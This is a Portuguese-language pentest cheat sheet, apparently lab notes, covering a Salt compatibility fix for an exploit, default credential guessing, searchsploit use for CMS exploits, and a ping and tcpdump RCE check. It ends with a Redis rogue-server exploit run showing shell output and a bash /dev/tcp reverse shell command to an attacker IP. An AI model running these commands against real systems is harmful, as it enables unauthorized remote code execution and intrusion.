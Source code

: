 ## Exploitation

### Python Compatibility Issues in Exploits

Alguns exploits requerem bibliotecas específicas que podem ter problemas de compatibilidade com versões mais recentes do Python. No caso de exploits que utilizam a biblioteca **Salt**, por exemplo, ajustes podem ser necessários para garantir que tudo funcione corretamente.

#### Exemplo de Solução

```
# Criar um ambiente virtual para isolar a versão do Python
python3 -m venv env
. ./env/bin/activate

# Instalar dependências necessárias para o exploit
pip install distro salt

# Corrigir incompatibilidades na biblioteca Salt com Python 3.8+
sed -i 's/from platform import _supported_dists//' ./env/lib/python3.8/site-packages/salt/grains/core.py
sed -i 's/_supported_dists +=/_supported_dists =/' ./env/lib/python3.8/site-packages/salt/grains/core.py
```

Essas adaptações são para garantir a compatibilidade da biblioteca Salt com Python 3.8, o que permite que o exploit funcione corretamente no ambiente configurado.

### Default Credential Guessing

```bash
# Teste de credenciais padrão comuns (exemplo: admin:admin, root:root) para acessar painéis de administração e outros serviços.
# Essa etapa é fundamental pois muitos sistemas mantêm credenciais padrão, que representam uma vulnerabilidade crítica.
```

**Nota**: Tentar credenciais padrão é uma abordagem inicial essencial, pois muitos sistemas ainda utilizam configurações padrão, oferecendo acesso administrativo sem autenticação personalizada.


### Exploração de CMS (Content Management Systems)

Ao encontrar um CMS, é importante identificar a versão exata da aplicação, pois muitos CMS populares possuem vulnerabilidades publicamente conhecidas que podem ser exploradas. Seguem os passos recomendados:

1. **Identificar a Versão do CMS**: Busque a versão nas páginas de login, rodapé, ou nos arquivos de configuração acessíveis. Conhecer a versão é essencial para direcionar a pesquisa de exploits.

2. **Pesquisa de Exploits Públicos**: Utilize ferramentas como `searchsploit` para buscar exploits específicos para essa versão.
   ```bash
   # Atualiza o banco de dados do searchsploit
   searchsploit -u

   # Exemplo de busca e cópia de um exploit
   searshsploit Joomla 
   searchsploit -m <exploit_id>
   ```

3. **Verificar Necessidade de Autenticação**: Muitos exploits de CMS são autenticados, ou seja, requerem login para serem utilizados. Verifique se é necessário credenciais válidas antes de iniciar o exploit.

4. **Exploração Comum (RCE, File Upload Bypass, SQLi)**: CMS frequentemente possuem vulnerabilidades de execução remota de código (RCE), bypass no upload de arquivos, e injeção SQL (SQLi), que permitem controle sobre o sistema.

**Nota**: A exploração de CMS é uma etapa crítica em pentests, pois muitas vezes esses sistemas contêm dados sensíveis e controles administrativos. Use exploits com cautela, sempre verificando os requisitos e condições para a execução.

---

## Teste de RCE com Ping

### Passo 1: Executar o Exploit com Comando Ping
Execute o exploit com um comando `ping` apontando para o IP da sua máquina de ataque:

```
python3 exploit.py -c 'ping -c1 <IP_da_máquina_de_ataque>' -t <URL_do_alvo>
```

> Exemplo: `python3 exploit.py -c 'ping -c1 192.168.145.128' -t http://192.168.145.160/grav-admin`

### Passo 2: Capturar o Tráfego com tcpdump
Na máquina de ataque, use `tcpdump` para monitorar pacotes ICMP e verificar se o ping chega:

```
tcpdump -i <interface> icmp
```

> Exemplo: `tcpdump -i tun0 icmp`

### Resultado Esperado
Se o exploit funcionar, você verá pacotes `ICMP echo request` e `echo reply` no tcpdump, confirmando a execução do comando `ping` no alvo.


**Resumindo:**
1. **Exploit**: `python3 exploit.py -c 'ping -c1 <IP_atacante>' -t <URL_alvo>`
2. **Monitorar**: `tcpdump -i <interface> icmp`
3. **Confirmação**: Pacotes ICMP indicam sucesso do RCE.

---

### Redis RCE Exploitation

Explorando vulnerabilidades em Redis (versão <=5.0.5) para obter Execução Remota de Comando (RCE) utilizando o exploit **Redis Rogue Server**.

Passo 1: Executar o Exploit com redis-rogue-server

O comando abaixo configura o Redis Rogue Server para se conectar ao Redis alvo e obter RCE. Substitua `<rhost>`, `<rport>`, `<lhost>`, e `<lport>` conforme necessário:

https://github.com/n0b0dyCN/redis-rogue-server?source=post_page-----49920d4188de--------------------------------

```
./redis-rogue-server.py --rhost=<IP_do_Alvo> --rport=<Porta_do_Alvo> --lhost=<IP_de_Loopback> --lport=<Porta_de_Loopback>
```

Exemplo
```
./redis-rogue-server.py --rhost=192.168.245.176 --rport=6379 --lhost=192.168.45.168 --lport=4443
```

Ou, para outro repositório:

https://github.com/Testzero-wz/Awsome-Redis-Rogue-Server
```
┌──(kali㉿kali)-[~/Awsome-Redis-Rogue-Server]
└─$ python3 redis_rogue_server.py -rhost 192.168.120.118 -lhost 192.168.118.23
[*] Init connection...
[+] Target accessible!
[*] Exploit Step-1.
[+] RDB dir: /tmp
[*] Done.
[+] Accept connection from 192.168.120.118:42480
[*] The Rogue Server Finished Sending the Fake Master Response.
[*] Wait for redis IO and trans flow close...
[*] Exploit Step-2.
[*] Done.
[+] It may crash target redis cause transfer large data, be careful.
[?] Shell? [i]interactive,[r]reverse:i
[!] DO NOT USING THIS TOOL DO ANYTHING EVIL!
[+] =========================== Shell ============================= 
$ whoami && hostname 
prudence
blackgate
$ 
```

Para obter reverse shell
```
$ bash -c 'bash -i >& /dev/tcp/192.168.118.23/4422 0>&1'
```


---
